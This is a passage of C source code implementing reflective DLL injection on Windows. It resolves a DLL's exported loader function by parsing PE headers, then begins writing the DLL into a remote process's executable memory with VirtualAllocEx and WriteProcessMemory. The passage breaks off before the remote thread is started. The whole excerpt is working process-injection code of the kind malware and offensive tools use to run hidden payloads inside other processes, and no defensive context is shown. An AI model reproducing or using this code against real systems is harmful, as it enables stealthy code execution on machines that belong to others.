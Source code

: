 ```c

    printf("\t[!] Cound'nt Convert The 0x%0.8X RVA to File Offset! \n", dwRVA);
    return 0x00;
}

// Gets the Special Reflective function offset. 
// Offset is used when we are calculating the address in memory allocated w/ VirtualAlloc. (InjectAndRunDll)
DWORD GetReflectiveFunctionOffset(IN ULONG_PTR uRflDllBuffer) {

    PIMAGE_NT_HEADERS               pImgNtHdrs                      = NULL;
    PIMAGE_EXPORT_DIRECTORY         pImgExportDir                   = NULL;
    PDWORD                          pdwFunctionNameArray            = NULL;
    PDWORD                          pdwFunctionAddressArray         = NULL;
    PWORD                           pwFunctionOrdinalArray          = NULL;

    pImgNtHdrs = (PIMAGE_NT_HEADERS)(uRflDllBuffer + ((PIMAGE_DOS_HEADER)uRflDllBuffer)->e_lfanew);
    if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE)
        return 0x00;

    pImgExportDir              = ( PIMAGE_EXPORT_DIRECTORY ) (uRflDllBuffer + RVA2Offset(pImgNtHdrs->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress, uRflDllBuffer));
    pdwFunctionNameArray       = ( PDWORD ) (uRflDllBuffer + RVA2Offset(pImgExportDir->AddressOfNames, uRflDllBuffer));
    pdwFunctionAddressArray    = ( PDWORD ) (uRflDllBuffer + RVA2Offset(pImgExportDir->AddressOfFunctions, uRflDllBuffer));
    pwFunctionOrdinalArray     = ( PWORD )  (uRflDllBuffer + RVA2Offset(pImgExportDir->AddressOfNameOrdinals, uRflDllBuffer));

    for (DWORD i = 0; i < pImgExportDir->NumberOfFunctions; i++){

        PCHAR pcFunctionName = (PCHAR)(uRflDllBuffer + RVA2Offset(pdwFunctionNameArray[i], uRflDllBuffer));

        if (strcmp(pcFunctionName, EXPORTED_FUNC_NAME) == 0)
            return RVA2Offset(pdwFunctionAddressArray[pwFunctionOrdinalArray[i]], uRflDllBuffer);
    }

    printf("\t[!] Cound'nt Resolve %s's Offset! \n", EXPORTED_FUNC_NAME);
    return 0x00;
}


// Takes in buffer, dllsize, and ReflectiveFunction address.
// Allocates memory, sets permissions, writes memory to remote process, and executes thread
BOOL InjectAndRunDll(IN HANDLE hProcess, IN DWORD dwRflFuncOffset, IN PBYTE pRflDllBuffer, IN DWORD dwRflDllSize) {

    PBYTE		pAddress                = NULL;
    SIZE_T		sNumberOfBytesWritten   = 0;
    HANDLE		hThread                 = NULL;
    DWORD		dwThreadId              = 0x00;
    if (!(pAddress = VirtualAllocEx(hProcess, NULL, dwRflDllSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READ))) {
        printf("\t[!] VirtualAllocEx Failed With Error: %d \n", GetLastError());
        return FALSE;
    }

    if (!WriteProcessMemory(hProcess, pAddress, pRflDllBuffer, dwRflDllSize, &sNumberOfBytesWritten) || dwRflDllSize != sNumberOfBytesWritten) {
        printf("\t[!] WriteProcessMemory Failed With Error: %d \n", GetLastError());
        return FALSE;
    }
```